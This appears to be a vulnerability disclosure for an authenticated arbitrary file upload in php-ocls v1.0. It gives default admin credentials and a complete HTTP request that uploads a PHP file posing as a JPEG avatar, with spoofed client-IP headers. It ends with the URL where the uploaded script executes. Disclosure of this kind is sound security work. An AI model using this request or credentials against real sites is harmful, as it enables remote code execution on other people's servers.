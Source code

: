 # php-ocls<=v1.0 Authenticated Arbitrary File Upload

## Description

    php-ocls<=v1.0 /php-ocls/classes/Users.php?f=save interface has an authenticated arbitrary file upload vulnerability

## source code

    php-ocls<=1.0
    Software Link: https://www.sourcecodester.com/php/16397/online-computer-and-laptop-store-using-php-and-mysql-source-code-free-download.html

## Author

    yangfan2@webray.com.cn inc  

## Proof of Concept

1. login system(default: admin:admin&123)

   /php-ocls/admin/login.php

| ![image-20240816163739350](E:\Desktop\webRay\cve挖掘\cve提交\php-ocls-Arbitrary File Upload.assets\image-20240816163739350.png) |
| ------------------------------------------------------------ |

2. upload Avatar

| ![](E:\Desktop\webRay\cve挖掘\cve提交\php-ocls-Arbitrary File Upload.assets\image-20240816163815702.png) |
| ------------------------------------------------------------ |
| ![image-20240816163931495](E:\Desktop\webRay\cve挖掘\cve提交\php-ocls-Arbitrary File Upload.assets\image-20240816163931495.png) |

```http
POST /php-ocls/classes/Users.php?f=save HTTP/1.1
Host: 172.20.10.166:8080
Content-Length: 6464
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryvOPdJlKG9BB6Qoca
Origin: http://172.20.10.166:8080
Referer: http://172.20.10.166:8080/php-ocls/admin/?page=user
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=e2vdjl8cstkt92494q3ru73n2q
x-forwarded-for: 127.0.0.1
x-originating-ip: 127.0.0.1
x-remote-ip: 127.0.0.1
x-remote-addr: 127.0.0.1
Connection: close

------WebKitFormBoundaryvOPdJlKG9BB6Qoca
Content-Disposition: form-data; name="id"

1
------WebKitFormBoundaryvOPdJlKG9BB6Qoca
Content-Disposition: form-data; name="firstname"

Adminstrator
------WebKitFormBoundaryvOPdJlKG9BB6Qoca
Content-Disposition: form-data; name="lastname"

Admin
------WebKitFormBoundaryvOPdJlKG9BB6Qoca
Content-Disposition: form-data; name="username"

admin
------WebKitFormBoundaryvOPdJlKG9BB6Qoca
Content-Disposition: form-data; name="password"


------WebKitFormBoundaryvOPdJlKG9BB6Qoca
Content-Disposition: form-data; name="img"; filename="1.php"
Content-Type: image/jpeg

<?php phpinfo();?>
------WebKitFormBoundaryvOPdJlKG9BB6Qoca--

```

3. Accessing avatars

| ![image-20240816164005374](E:\Desktop\webRay\cve挖掘\cve提交\php-ocls-Arbitrary File Upload.assets\image-20240816164005374.png) |
| ------------------------------------------------------------ |

> /php-ocls/uploads/1723797540_1.php

| ![image-20240816164104754](E:\Desktop\webRay\cve挖掘\cve提交\php-ocls-Arbitrary File Upload.assets\image-20240816164104754.png) |
| ------------------------------------------------------------ |


